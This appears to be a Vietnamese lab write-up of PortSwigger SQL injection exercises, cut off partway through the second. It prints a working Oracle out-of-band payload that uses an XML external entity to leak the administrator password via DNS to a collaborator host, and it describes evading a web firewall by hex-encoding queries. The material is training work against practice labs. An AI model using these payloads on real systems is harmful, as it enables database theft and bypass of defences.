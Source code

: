## Lab 16: Blind SQL injection with out-of-band data exfiltration
![image](https://github.com/Mtuwn/Portswigger/assets/100981255/c73dcc82-e9bb-4a92-bc7e-9525a62208c3)

- Lab chứa lỗ hổng SQL SQL. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi
- Truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, ta có thể kích hoạt các tương tác ngoài băng tần với miền bên ngoài.
- Database có chứa 1 bảng có tên là users và 2 cột có tên là username và password
- Mục tiêu: Tìm được password của tài khoản administrator và đăng nhập thành công
- Đầu tiên ta sẽ dùng burp suite professional để lấy được mã nguồn của trang web
  ![image](https://github.com/Mtuwn/Portswigger/assets/100981255/709bf6df-6481-4bd6-bfb4-eecc1aac8584)

tiếp theo ta khiến cơ sở dữ liệu thực hiện tra cứu DNS sang miền bên ngoài chứa kết quả của truy vấn được chèn bằng câu lệnh truy vấn:

![image](https://github.com/Mtuwn/Portswigger/assets/100981255/af33b90e-b515-46fe-99bc-67ee85ceedb3)

'|| SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mrhynhbcjcn0lxym0b9ygnaspjv9jy.oastify.com/"> %remote;]>'),'/l') FROM dual--'

![image](https://github.com/Mtuwn/Portswigger/assets/100981255/7e46506e-ea6e-4f1c-8dd2-65a859efe9a3)

Như vậy password đã được thêm vào và nối với DNS: 3tq5aky1wnf0l0d34iwz

![image](https://github.com/Mtuwn/Portswigger/assets/100981255/71241779-4f10-4f5b-8bb5-53233e8ea60a)

Như vậy bài lab đã được giải quyết

## Lab 17: SQL injection with filter bypass via XML encoding

![image](https://github.com/Mtuwn/Portswigger/assets/100981255/344e6ff9-3037-4f98-9331-257b4828db6f)

- Lab trên chứa một lỗ hổng SQL Injection ở tính năng kiểm tra hàng hóa. Database có 1 bảng là users và có 2 cột là username và password
- Nhiệm vụ của ta là phải lấy được thông tin từ bảng users, từ đó lấy được tài khoản và mật khẩu của administrator.
- Đầu tiên,ta có thể xác định số cột của query trả về bằng câu truy vấn `UNION SELECT NULL` thì ta nhận được phản hồi lỗi 403 Forbidden

  ![image](https://github.com/Mtuwn/Portswigger/assets/100981255/56ea5249-602e-40b7-8973-cdeb75fadf2a)

  Như vậy trang web đã phát hiện bị tấn công, ta hông thể tấn công theo cách bình thường như này, nên em cần phải sử dụng thêm extension có trong BurpSuite là Hackvertor, công cụ này sẽ biến đổi payload và mã hóa theo nhiều dạng khác nhau, tiêu biểu như: base64, base32, hex..,  Ở đây ta sẽ encode câu query theo dạng hex_entities để cố gắng vượt qua tường lửa của trang web
 ![image](https://github.com/Mtuwn/Portswigger/assets/100981255/1057db9c-eb1e-49e8-a4e4-222e234e716a)
